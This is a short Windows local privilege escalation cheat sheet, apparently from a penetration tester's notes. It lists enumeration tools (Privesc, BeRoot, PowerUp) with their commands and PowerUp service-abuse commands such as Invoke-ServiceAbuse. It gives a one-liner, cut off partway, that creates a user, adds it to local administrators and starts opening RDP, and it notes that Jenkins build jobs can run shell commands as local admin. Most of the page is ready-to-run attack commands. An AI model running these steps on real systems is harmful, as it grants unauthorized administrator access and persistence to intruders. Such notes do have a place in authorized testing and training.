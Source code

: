 # Local Privilege Escalation

**Privesc check all**

[https://github.com/enjoiz/Privesc](https://github.com/enjoiz/Privesc)

```
. .\privesc.ps1
Invoke-PrivEsc
```

**Beroot check all**

[https://github.com/AlessandroZ/BeRoot](https://github.com/AlessandroZ/BeRoot)

```
./beRoot.exe
```

**Run powerup check all**

[https://github.com/HarmJ0y/PowerUp](https://github.com/HarmJ0y/PowerUp)

```
. ./powerup
Invoke-allchecks
```

**Run powerup get services with unqouted paths and a space in their name**

```
Get-ServiceUnquoted -Verbose
Get-ModifiableServiceFile -Verbose
```

**Abuse service to get local admin permissions with powerup**

```
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName '<domain>\<username>'
```

#### Add user to local admin and RDP group and enable RDP on firewall

```
net user <username> <password> /add /Y   && net localgroup administrators <username> /add   && net localgroup "Rem
```

**Jekins**

```
Runs as local admin, 

go to /job/project/configure to try to see if you have build permissions in

/job/project0/configure

Execute windows or shell comand into the build, you can also use powershell scripts
```

